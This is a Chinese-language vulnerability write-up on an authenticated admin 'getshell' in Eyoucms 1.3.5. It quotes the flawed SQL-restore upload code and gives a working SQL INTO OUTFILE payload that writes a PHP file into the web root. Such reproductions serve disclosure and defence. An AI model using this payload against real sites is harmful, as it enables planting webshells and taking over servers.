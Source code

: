 Eyoucms 1.3.5 后台getshell
==========================

一、漏洞简介
------------

### 最新版本删除该功能

二、漏洞影响
------------

Eyoucms 1.3.5

三、复现过程
------------

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

     public function restoreUpload()
     {
         $file = request()->file('sqlfile');
         if(empty($file)){
             $this->error('请上传sql文件');
         }
         // 移动到框架应用根目录/data/sqldata/ 目录下
         $path = tpCache('global.web_sqldatapath');
         $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
         $path = trim($path, '/');
         $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
         $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
         if ($info) {
             //上传成功 获取上传文件信息
             $file_path_full = $info->getPathName();
             if (file_exists($file_path_full)) {
                 $sqls = Backup::parseSql($file_path_full);
                 if(Backup::install($sqls)){
                    //array_map("unlink", glob($path));
                     /*清除缓存*/
                     delFile(RUNTIME_PATH);
                     /*--end*/
                     $this->success("执行sql成功", url('Tools/restore'));
                 }else{
                     $this->error('执行sql失败');
                 }
             } else {
                 $this->error('sql文件上传失败');
             }
         } else {
             //上传错误提示错误信息
             $this->error($file->getError());
         }
     }

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

![](./.resource/Eyoucms1.3.5后台getshell/media/rId27.png)

上传sql文件内容为（需要知道网站绝对路径）

     select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php';

上传成功后在网站根目录生成webshell。

![](./.resource/Eyoucms1.3.5后台getshell/media/rId28.png)
